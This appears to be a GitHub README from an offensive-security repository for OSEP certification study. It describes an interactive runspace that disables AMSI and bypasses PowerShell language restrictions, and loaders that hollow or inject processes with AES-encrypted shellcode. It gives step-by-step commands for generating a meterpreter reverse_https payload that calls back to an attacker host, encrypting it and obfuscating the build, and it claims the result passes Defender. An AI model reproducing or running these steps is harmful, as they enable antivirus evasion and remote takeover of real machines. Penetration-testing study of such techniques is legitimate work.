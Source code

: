 ## InteractiveRunspace.cs

This is used to bypass CLM when you already have access to the system (like a reverse shell or RDP).  It provides a PS shell with AMSI disabled in "FullLanguage" mode that you can interactively execute commands in.


![InteractiveRunSpace Shell](https://github.com/superhac/OSEP/blob/main/images/interactiverunspaceshell.PNG)

## Powershell-Filetransfers-methods.md

Contains a list of PowerShell file transfer methods highlighting if they are "proxy aware" and if they work in when your in "ContrainedLanguageMode".

## dinvoke-phollow-aes.cs

Uses D/Invoke to hollow a process of your choosing. The default is "svchost".  This is based on the work of [FatCyclone D/Invoke in C#](https://github.com/FatCyclone/D-Pwn) with the AV bypasses stripped and I added AES128 ECB encryption.

*Note that msfvenon encoders don't work for this use-case. Do not encode your payload*

1. Create a msfvenom payload
```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 EXITFUNC=thread -f raw -o ~/OSEP/shell.raw
```

2. Now AES 128 ECB encrypt your payload: (Note key is 16 chars.  No less or No more.)

```
python aes-encode.py --key 777456789abcdety --format csharp --file shell.raw
```

3. Take the output and put it into the VS project.  Also set your key.  Build it.
4. Then obfuscate with [ConfuserEx](https://github.com/mkaring/ConfuserEx).
5. PWN2OWN

*As of 11/30/2021 this passes Defender*

## dinvoke-pinject-aes.cs

Same as above except it uses process injection.  Default is "explorer". 

## aes-encrypt.py

Use this to encrypt you payloads with AES 128 ECB.  

```
# Usage:

# msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 EXITFUNC=thread -f raw -o ~/OSEP/shell.raw

# python aes-encode.py --key 777456789abcdety --format csharp --file shell.raw

#

# ***** Note don't use msfvenom encoders with d/invoke process hollowing. It crashes process right on startup!!! ***

# Key size is 16 chars! No More or less
```
